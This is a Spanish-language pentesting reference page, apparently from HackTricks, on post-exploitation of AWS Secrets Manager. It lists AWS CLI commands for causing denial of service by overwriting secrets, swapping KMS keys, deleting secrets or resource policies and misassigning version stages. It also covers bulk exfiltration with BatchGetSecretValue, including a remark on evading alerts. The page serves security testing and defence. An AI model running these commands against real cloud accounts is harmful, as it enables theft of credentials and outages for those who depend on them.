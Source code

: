 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Para más información consulta:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Leer Secrets

Los **secrets en sí son información sensible**, [check the privesc page](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) para aprender cómo leerlos.

### DoS Change Secret Value

Al cambiar el valor del secret podrías **hacer DoS a todo el sistema que depende de ese valor.**

> [!WARNING]
> Ten en cuenta que los valores anteriores también se almacenan, por lo que es fácil volver al valor anterior.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Si el atacante tiene el permiso secretsmanager:UpdateSecret, puede configurar el secret para que use una KMS key controlada por el atacante. Esa key se configura inicialmente de forma que cualquiera puede acceder y usarla, por lo que actualizar el secret con la nueva key es posible. Si la key no fuera accesible, no sería posible actualizar el secret.

Tras cambiar la key del secret, el atacante modifica la configuración de su key para que solo él pueda acceder a ella. De este modo, en versiones posteriores del secret, éste quedará cifrado con la nueva key y, al no haber acceso a la key, se perdería la posibilidad de recuperar el secret.

Es importante notar que esta inaccesibilidad solo ocurrirá en versiones posteriores, después de que el contenido del secret cambie, ya que la versión actual sigue estando cifrada con la KMS key original.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

El número mínimo de días para eliminar un Secret es 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Es posible restaurar un secreto, lo que permite recuperar secretos programados para eliminación, ya que el período mínimo de eliminación para secretos es de 7 días y el máximo de 30 días. Junto con el permiso secretsmanager:GetSecretValue, esto permite obtener su contenido.

Para recuperar un secreto que está en proceso de eliminación, puedes usar el siguiente comando:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Esta acción permite eliminar la resource policy que controla quién puede acceder a un secret. Esto podría provocar un DoS si la resource policy estaba configurada para permitir el acceso a un conjunto específico de usuarios.

Para eliminar la resource policy:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Los estados de un secreto se usan para gestionar sus versiones. AWSCURRENT marca la versión activa que usan las aplicaciones, AWSPREVIOUS conserva la versión anterior para que puedas revertir si es necesario, y AWSPENDING se usa en el proceso de rotación para preparar y validar una nueva versión antes de convertirla en la actual.

Las aplicaciones siempre leen la versión con AWSCURRENT. Si alguien mueve esa etiqueta a la versión equivocada, las aplicaciones usarán credenciales inválidas y podrían fallar.

AWSPREVIOUS no se usa automáticamente. Sin embargo, si AWSCURRENT se elimina o se reasigna incorrectamente, podría parecer que todo sigue funcionando con la versión anterior.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Abusa de la Secrets Manager BatchGetSecretValue API para recuperar hasta 20 secretos en una sola solicitud. Esto puede reducir drásticamente el volumen de llamadas API en comparación con iterar GetSecretValue por cada secreto. Si se usan filtros (tags/name), también se requiere el permiso ListSecrets. CloudTrail todavía registra un evento GetSecretValue por cada secreto recuperado en el batch.

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue para cada secreto objetivo
- secretsmanager:ListSecrets si se usan --filters
- kms:Decrypt en las CMKs usadas por los secretos (si no se usa aws/secretsmanager)

> [!WARNING]
> Tenga en cuenta que el permiso `secretsmanager:BatchGetSecretValue` por sí solo no es suficiente para recuperar secretos; también necesita `secretsmanager:GetSecretValue` para cada secreto que desee recuperar.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate por filtros (tag key/value o prefijo de nombre)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Manejo de fallos parciales
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Impacto
- Rápido “smash-and-grab” de muchos secretos con menos llamadas API, potencialmente eludiendo alertas ajustadas para picos de GetSecretValue.
- Los CloudTrail logs aún incluyen un evento GetSecretValue por cada secreto recuperado por el batch.
{{#include ../../../../banners/hacktricks-training.md}}
